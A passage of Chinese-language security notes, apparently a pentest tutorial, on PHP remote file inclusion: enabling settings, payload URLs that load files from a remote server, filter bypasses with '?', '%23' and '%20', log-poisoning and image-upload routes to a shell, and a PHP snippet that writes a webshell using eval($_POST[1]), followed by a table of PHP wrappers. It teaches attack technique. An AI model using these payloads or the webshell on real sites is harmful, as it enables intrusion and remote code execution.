 #### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

- 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  ```